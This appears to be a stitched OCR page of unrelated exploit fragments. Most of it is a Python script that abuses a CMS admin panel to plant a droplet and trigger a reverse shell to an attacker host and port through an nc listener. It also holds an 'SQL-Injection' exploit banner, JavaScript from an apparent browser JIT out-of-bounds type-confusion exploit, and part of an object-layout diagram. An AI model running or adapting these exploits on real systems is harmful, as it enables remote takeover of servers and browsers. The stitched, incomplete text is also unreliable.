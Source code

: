#create page
body= {'formtoken':formtoken,'title':'t18bknev','type':'wysiwyg','parent':'0','visibility':'public','save':''}
r = s2.post(args.url+'/admin/pages/add.php', data=body, allow_redirects=False)
soup = BeautifulSoup(r.text, 'html.parser')
try:
    page_id = soup.findAll("script")[9].string.split("location.href='")[-1].split("\");")[0].split("'")[0].split("=")[1]
    print("[*] Page OK ["+page_id+"]")
except:
    print("[*] Exploit Failed")
    exit(1)

time.sleep(1)

#get csrf token
print("[*] Getting token")
r = s2.get(args.url+'/admin/pages/modify.php?page_id='+page_id)
soup = BeautifulSoup(r.text, 'html.parser')
formtoken = soup.find('input', {'name':'formtoken'})['value']
section_id = soup.find('input', {'name':'section_id'})['value']
    
time.sleep(1)

#add droplet to page
body= {'page_id':page_id,'formtoken':formtoken,'section_id':section_id,'content'+section_id:'[[t18bknev]]','modify':'save'}
r = s2.post(args.url+'/modules/wysiwyg/save.php', data=body, allow_redirects=False)
if(r.status_code==200 and r.text.find('Page saved') != -1):
    print("[*] Adding droplet OK")
else:
    print("[*] Exploit Failed")
    exit(1)   

time.sleep(1)

input("Please make sure that your nc listner is ready...\n\nPRESS ENTER WHEN READY")
body= {'rev_ip':args.attacker_host,'rev_port':args.attacker_port}
r = s2.post(args.url+'/pages/t18bknev.php', data=body, allow_redirects=False)
if(r.status_code==200):
    print("[*] Exploit OK - check your listner")
    exit(0)
else:
    print("[*] Exploit Failed")
    exit(1)
                              [+] Download Monitor - SQL-Injection
                              [@] Developed by Ron Jost (Hacker5preme)
if(EnableTimers) {
    if(AlertOutput) {
        alert("TIME ... " + Message + " time elapsed: " + TotalTime.toString(10) + " read count: " + ReadCount.toString(10));
    }
    else {
        console.log("TIME ... " + Message + " time elapsed: " + TotalTime.toString(10) + " read count: " + ReadCount.toString(10));
    }
}
const Uint32Obj = SparseTrapdoorArray.pop();
Uint32Obj[Index] = 0x80; // This will be an OOB index access which will fail its boundscheck prior to being confused with a Uint8Array
for (var i = 0; i < JITIterations; i++) {} // JIT compile this function
              +-> group                +->shape
              |                        |
              +-> slots                +->elements (Empty in this case)
              |                        |